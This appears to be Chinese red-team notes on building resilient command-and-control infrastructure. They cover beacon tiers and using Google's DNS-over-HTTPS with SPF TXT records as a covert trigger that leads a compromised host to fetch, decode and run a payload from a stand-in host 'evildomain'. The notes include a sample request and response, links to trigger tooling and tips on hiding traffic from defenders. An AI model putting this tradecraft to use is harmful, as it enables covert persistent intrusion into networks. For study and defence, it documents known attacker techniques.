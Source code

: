 ### 构建高适应性的C2基础设施
Building resilient C2(command and control) infrastructures

* 持久访问方式(Persistent access)
  * 备用低频方式(long-haul beacons)stage 1
    * 功能极简 - 当所有的 日常高频方式(short-haul beacons) 都失败时 可以恢复对目标网络的访问(Backup channel)
    * 隐蔽性高 - 以尽量不让防御者发现的方式运作的方式：低频率的回调(calls back)、数据量小(如只传递payload的 delivery地址) ...
  * 日常高频方式(short-haul beacons)stage 2
    * 功能完整 - 功能强大的RAT`Cobalt Strike` `Empire` `Slingshot`...
    * 隐蔽性低 - 攻击者日常使用的、较频繁的对目标网络进行操作的方式
* 健壮的C2基础设施 特征
  * channel多样性 - 具有多个channel的持久访问 稳定性强（避免丢失目标网络的权限）
  * channel独立性 - 如果一个channel被发现，不会直接暴露其他channel（避免关联发现其他channel）
  * channel隐蔽性 - 通信流量加密形式或与正常的网络流量混合（避免各种方式的调查）

### stage 1 方案 - DNS over HTTPS (DoH)

>通过https协议进行DNS解析 协议参考 [RFC 8484 - DNS Queries over HTTPS (DoH)](https://tools.ietf.org/html/rfc8484)

>具体实施参考 https://outflank.nl/blog/2018/10/25/building-resilient-c2-infrastructues-using-dns-over-https/

* stage 1 : DNS over HTTPS (DoH) - 通过https协议进行DNS解析 优势与特点
  * 可控字符串 `响应中有部分内容是攻击者可控的`
  * “白”域名 `Google Public DNS` https://dns.google.com/resolve?name=qq.com&type=TXT
  * 流量加密 `Over an SSL-encrypted channel`且许多已实施SSL检查的客户将所有`Google domains`排除在检查范围之外（因为Google产品中的证书，流量负载，隐私等）
* stage 2 : RAT


https GET https://dns.google.com/resolve?name=qq.com&type=TXT

请求中的url参数值`qq.com`为我们可控的域名

* 攻击者设置`stager`
  * 通过设置该域名 的[TXT record](https://en.wikipedia.org/wiki/TXT_record)中的 用于`SPF records`的字符串
  * (通常这里放的是 `IP addresses` `domains` `server names` 在这里放上域名很合理 看起来是无害的)
  * 如`"v=spf1 include:spf.mail.qq.com -all"`  `"v=spf1 ip4:192.0.2.0/24 ip4:198.51.100.123 a -all"`

我们将在响应中看到 可控字符串（其中data字段中的内容确认为我们可控的）

response:
```
{
  "Status": 0,
  "TC": false,
  "RD": true,
  "RA": true,
  "AD": false,
  "CD": false,
  "Question": [
    {
      "name": "qq.com.",
      "type": 16
    }
  ],
  "Answer": [
    {
      "name": "qq.com.",
      "type": 16,
      "TTL": 3329,
      "data": "\"v=spf1 include:spf.mail.qq.com -all\""
    }
  ]
}
```

所以`DoH via Google`是一个触发payload运行的理想channel

* 目标主机情况
  * `SPFstager`定期查询：提取DNS`TXT record`中`SPF records`信息
  * `SPFtrigger`触发条件：当发现了`SPF records`中的新域名时 得到了域名evildomain(stage 2)
    * 提取隐藏信息-方案a`http-robots.txt`
      * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/robot.txt`提取`payload` 进行decode得到raw payload
      * https://github.com/outflanknl/DoH_c2_Trigger/blob/master/DoHtrigger.ps1
    * 提取隐藏信息-方案b`http-xxx.png`
      * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/date.png`提取`payload` 进行decode得到raw payload
      * https://github.com/peewpw/Invoke-PSImage
  * 触发执行 - `payload triggering`
